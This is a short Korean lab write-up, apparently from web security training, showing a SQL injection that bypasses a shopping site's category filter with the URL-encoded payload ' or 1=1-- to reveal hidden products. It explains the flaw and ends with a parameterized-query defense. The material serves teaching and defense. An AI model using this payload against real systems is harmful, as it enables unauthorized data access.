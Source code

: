 ## 🕵️‍♂️ WHERE — 숨겨진 데이터 검색

**목표:** 카테고리 필터를 우회하여 숨겨진 제품 데이터 확인 및 SQL Injection 이해

<br />

### 🧪 실습

1️⃣ 기본 요청 확인:

```text
GET {{shopping_mall_url}}/filter?category=Lifestyle
```

2️⃣ category 파라미터 변경:

```text
filter?category=%27+or+1=1--  // decodeURIComponent: '+or+1=1--'
```

3️⃣ 결과 확인:<br />

→ 필터를 무력화하면 모든 제품이 반환될 수 있다.

<br />

### ⚠️ 취약 원리

입력값 `' or 1=1--` 삽입으로, 모든 조건을 무력화하고 WHERE 조건을 항상 참으로 만든다.

```sql
SELECT *
FROM products
WHERE category = '[사용자입력]' and release = 1;

SELECT *
FROM products
WHERE category = '' or 1=1--' and release = 1;
```

<br />


### 🛡️ 방어책

**ex) 파라미터화 쿼리**:

```js
const [rows] = await connection.execute(
  'SELECT * FROM users WHERE username = ? AND password = ?',
  [usernameInput, passwordInput]
);
```
